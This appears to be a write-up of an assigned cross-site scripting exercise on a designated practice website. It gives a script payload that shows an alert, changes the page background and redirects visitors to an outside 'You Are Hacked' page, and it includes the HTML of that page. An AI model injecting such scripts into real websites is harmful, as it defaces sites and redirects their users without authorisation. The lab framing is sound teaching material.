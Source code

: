 # XSS Cross-Site Scripting

This task required us to perform a XSS cross-site scripting attack on the given website.
https://gcixsstask.herokuapp.com

The 4 attacks are
- alert box saying "HACKED"
- change background colour of website to red
- change background of website to image of my choice
- redirect to another website saying "You Are Hacked"

## Solution
On the given site, an input box can be seen.

A simple XSS test by inputting `<script>alert("HACKED")</script` into the box and having the website execute it already proved it to be XSS-vulnerable.

To get started, I wrote a very simple HTML file containing the js code for each of the attacks.

```javascript=
<script>
    alert("HACKED!");
    document.body.style.background = "red";
    document.body.style.backgroundImage = "url(https://www.wallpaperup.com/uploads/wallpapers/2014/03/25/309166/500ec936912c61a4ad63e9bbe1647da7-700.jpg)";
    window.location.href = "https://regardlesssalmon.htmlpasta.com/";
</script>
```

All we have to do is execute each of these lines of code together with the `<script></script>` tags into the input box and done!

The external HTML site to direct to was made with [HTML Pasta](https://htmlpasta.com)

Here's the HTML code I used for the site:
```HTML
<html>
    <h1 style="text-align: center;">YOU ARE HACKED!</h1>
</html>
```

## Screenshots
![](https://i.imgur.com/2nIkU4X.png)

![](https://i.imgur.com/3tPDg2Q.png)

![](https://i.imgur.com/IQP3yfG.jpg)

![](https://i.imgur.com/x2xs1EN.png)



